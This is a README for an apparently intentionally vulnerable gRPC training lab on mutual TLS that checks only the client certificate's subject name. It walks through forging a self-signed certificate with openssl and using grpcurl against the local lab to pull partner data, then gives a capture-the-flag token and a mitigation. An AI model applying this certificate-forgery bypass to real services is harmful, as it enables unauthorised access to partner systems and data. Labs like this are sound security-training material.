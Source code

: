 # Lab 005: mTLS with Subject Validation

## Vulnerability
Partner API validates client certificate subject name but accepts any certificate with "goatpartner.local".

## Objective
Generate a fake client certificate with the correct subject name "goatpartner.local" to access partner data.

## Run the Lab
```bash
# Build and run
docker build -t grpc-005 .
docker run -p 8005:8005 grpc-005
```

## Exploit

### Step 1: Generate a client certificate with the required subject name
```bash
# Generate client private key
openssl genrsa -out client.key 2048

# Generate client certificate with the EXACT subject name required
openssl req -new -key client.key -out client.csr -subj "/CN=goatpartner.local/O=AttackerCorp"

# Generate self-signed client certificate
openssl x509 -req -in client.csr -signkey client.key -out client.crt -days 365
```

### Step 2: Use the certificate to access partner data
```bash
# Install grpcurl
go install github.com/fullstorydev/grpcurl/cmd/grpcurl@latest

# Connect using the client certificate with correct subject name
grpcurl -insecure -cert client.crt -key client.key -d '{
  "partner_id": "GOAT_PARTNER",
  "data_type": "all"
}' localhost:8005 partner.PartnerAPI/GetPartnerData
```

## Impact
Attackers can generate certificates with the required subject name and bypass partner authentication.

## Flag
Successfully access partner data to get: `GRPC_GOAT{subject_validation_insufficient_for_mtls}`

## Mitigation
Use proper CA-signed certificates with certificate pinning, not just subject name validation.